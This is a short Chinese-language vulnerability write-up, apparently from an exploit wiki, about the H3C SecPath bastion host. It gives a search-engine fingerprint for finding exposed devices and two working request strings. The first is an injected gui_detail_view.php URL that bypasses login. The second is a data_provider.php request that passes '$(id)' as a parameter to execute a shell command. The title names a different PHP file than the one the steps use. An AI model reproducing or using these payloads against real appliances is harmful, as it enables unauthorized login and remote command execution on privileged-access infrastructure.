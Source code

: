 # H3C SecParh堡垒机 get_detail_view.php 任意用户登录漏洞

## 漏洞描述

H3C SecParh堡垒机 data_provider.php 存在远程命令执行漏洞，攻击者通过任意用户登录或者账号密码进入后台就可以构造特殊的请求执行命令

## 漏洞影响

<a-checkbox checked>H3C SecParh堡垒机</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="H3C-SecPath-运维审计系统" && body="2018"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313101654443.png)



先通过任意用户登录获取Cookie

```plain
/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=admin
```



![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313101654373.png)



```plain
/audit/data_provider.php?ds_y=2019&ds_m=04&ds_d=02&ds_hour=09&ds_min40&server_cond=&service=$(id)&identity_cond=&query_type=all&format=json&browse=true
```

![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313101654528.png)